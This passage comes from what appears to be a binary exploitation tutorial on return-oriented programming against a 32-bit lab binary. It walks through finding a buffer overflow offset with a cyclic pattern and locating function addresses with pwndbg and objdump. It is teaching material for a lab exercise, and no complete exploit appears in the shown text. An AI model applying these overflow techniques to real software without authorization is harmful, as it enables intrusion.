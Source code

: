 ```
cyclic 200
```

**Then, copy/paste the pattern and send it to the program as an argument:**

{% code overflow="wrap" %}
```
r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Generating pattern to find <code>EBP</code> offset</p></figcaption></figure>

Great, we now found our padding.&#x20;

It will be 108 because we are subtracting 4-bytes to make room for the `EIP`.

### Using `pwndbg` to find addresses

```
disass rop1
   0x08049182 <+0>:     push   ebp
   
disass rop2
   0x080491ad <+0>:     push   ebp
   
disass rop3
   0x080491d8 <+0>:     push   ebp

disass exit
   0xf7dbb460 <+0>:     endbr32
```

### Using `objdump` to find addresses

```
objdump -d rop1 | grep rop1
rop1:     file format elf32-i386
08049182 <rop1>:

objdump -d rop1 | grep rop2
080491ad <rop2>:

objdump -d rop1 | grep rop3
080491d8 <rop3>:
```
